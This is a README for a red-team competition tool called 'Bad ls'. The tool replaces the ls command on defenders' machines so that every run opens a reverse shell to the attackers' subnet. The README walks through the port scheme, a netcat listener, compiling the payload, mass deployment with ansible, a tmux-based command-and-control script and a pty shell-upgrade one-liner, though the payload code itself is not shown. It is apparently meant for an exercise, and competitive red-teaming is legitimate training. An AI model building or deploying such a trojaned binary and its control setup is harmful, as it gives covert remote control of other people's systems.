 # CDT 2025 Red Team tool
## Bad ls
Red team tool that will give the entire 10.0.20.0/24 red team subnet a reverse shell if the red team box is listening on the correct port

Reverse shells will be initiated on every blue team execution of the "ls" command

The port number the reverse shell will connect to will be
```py
(10000,20000,30000 depending on blue team number + last octet of target ip address)
```
So, for example, we want to connect to 10.0.3.5, the port number will be `30005`

## Starting listener
Port number is subject to change
```bash
nc -nvlp 30005
```

## Building and deploying

Note: build executable on debian bookworm instance

Install libpython3.11
```bash
apt install libpython3.11
```

In the venv, install requirements
```bash
pip install -r requirements.txt
```

Build python script into linux binary
```bash
./convert_to_linux_binary.sh
```

Configure `ansible/inventory.ini` to match target(s), then deploy
```bash
ansible-playbook deploy_tools.yml
```

## Command and Control (C2)
To open a port on every recievable port for this competition, execute
```bash
python3 c2.py
```
To open a session, use 
```bash
tmux attach -t c2_t1_10002
```
Where t1 = team number (1,2,3) and 10002 represents the port. To detach from tmux session, use
```
CTRL + B, D
```

## Upgrading reverse shell to fully interactive tty
Execute this after recieving a netcat connection
Useful for being able to use sudo, etc. 
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

# TODO
Make "all-in-one" deploy script that will build and then deploy to box
Create tmux listeners for every possible IP in scope

> Author: Daniel Wolosiuk

Oct 17, 2025

